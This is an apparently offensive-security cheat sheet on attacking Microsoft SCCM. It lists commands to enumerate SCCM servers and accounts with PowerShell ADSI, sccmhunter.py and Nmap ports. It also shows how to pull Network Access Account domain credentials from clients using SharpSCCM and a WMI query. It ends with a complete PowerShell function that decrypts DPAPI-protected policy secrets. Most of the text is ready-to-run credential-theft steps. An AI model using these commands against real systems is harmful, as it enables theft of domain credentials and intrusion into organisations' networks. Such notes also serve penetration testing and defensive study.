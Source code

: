 # SCCM
 - Good summary of all different enum and attack techniques: https://http418infosec.com/offensive-sccm-summary   
 - SharpSCCM: https://github.com/Mayyhem/SharpSCCM    

## Enumeration
On a SCCM managed endpoint, you can find the Configuration Manager client in the Control Panel, where you can find the configuration (e.g. Site Server and Site Name).
If you do not have access to such a managed client, there are other ways:   
- Using PowerShell ADSI: `([adsisearcher]"(objectClass=mSSMSManagementPoint)").FindAll().properties`
- Using sccmhunter.py ( ) : `python3 sccmhunter.py find -u username -p 'pass' -d domain.local -dc-ip dc1.domain.local` 
- List SCCM accounts using sccmhunter.py: `python3 sccmhunter.py show -users`
- List SCCM computers using sccmhunter.py: `python3 sccmhunter.py show -computers`

Identifying SCCM servers from portscans (Nmap):    
- 8530, 8531, 10123 (Site Server, Management Point)
- 49152-49159 (Distribution Point)
- UDP 4011 (Operating System Deployment)
 
 ## Network Access Account
 Active Directory domain accounts used by systems that are not joined to AD.   
 SCCM deploys a so called "Network Access Account" to the workstations, which is used to access network shares. Pushed to every SCCM client in machine policy   
 Credentials are stored locally on clients as DPAPI blobs protected by the system's masterkey   
 - Retrievable via WMI as a privileged user
 - Remain in CIM repository (C:\Windows\System32\Wbem\Repository\OBJECTS.DATA) **after client is uninstalled or account rotation**

### NAA Creds
Retrieve and decrypt Network Access Account domain credentials from an SCCM client:   
`SharpSCCM.exe local naa wmi`   
WMI Query:   
`select * from CCM_NetworkAccessAccount`   

**Decrypt Credentials**   
The credentials can be extracted over DPAPI calls with the NT/SYSTEM user.   

```
# Source: https://github.com/rzander/sccmclictrlib/blob/46640553235664bf2da45dc7f6e1f09628a497b0/sccmclictr.automation/Properties/Resources.resx
function UnProtect-PolicySecret {
<#
    .SYNOPSIS
    Decrypts policy secrets (c) 2016 by Mattias Benninge
 
    .DESCRIPTION
    The UnProtect-PolicySecret CmdLet takes a encrypted string and returnsthe decrypted sting.
     
    .NOTES
    This function must be run under the local system account on the computer that encrypted the data.
   
    .EXAMPLE
    UnProtect-PolicySecret -data "F600000001000000D08C9DDF0115D1118C7A00C04FC297EB010000006AF233F693"
 
    .PARAMETER Data
    [String] Encrypted data
#>
 
    [CmdletBinding()]
    PARAM (
        [Parameter(Position=0,Mandatory=$true,HelpMessage="Encrypted sting",ValueFromPipeline=$true)][Alias("Data")][String] $strData
    )
                              
    # Chop string up into bytes, and drop the first 4 bytes
    [System.Byte[]]$byteData = New-Object System.Byte[] $($strData.length / 2 - 4)
    for ($i = 0; $i -lt (($strData.length / 2) - 4); $i++)
    {
        $byteData[$i] = [System.Convert]::ToByte($strData.substring(($i + 4) * 2, 2),16)
    }
 
    #Add the security type assembly
    Add-Type -AssemblyName System.Security
             
    #Decrypt the data
    $bytePlainText = [System.Security.Cryptography.ProtectedData]::Unprotect($byteData , $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
    return $([System.Text.UnicodeEncoding]::Unicode.GetString($bytePlainText))
}
```
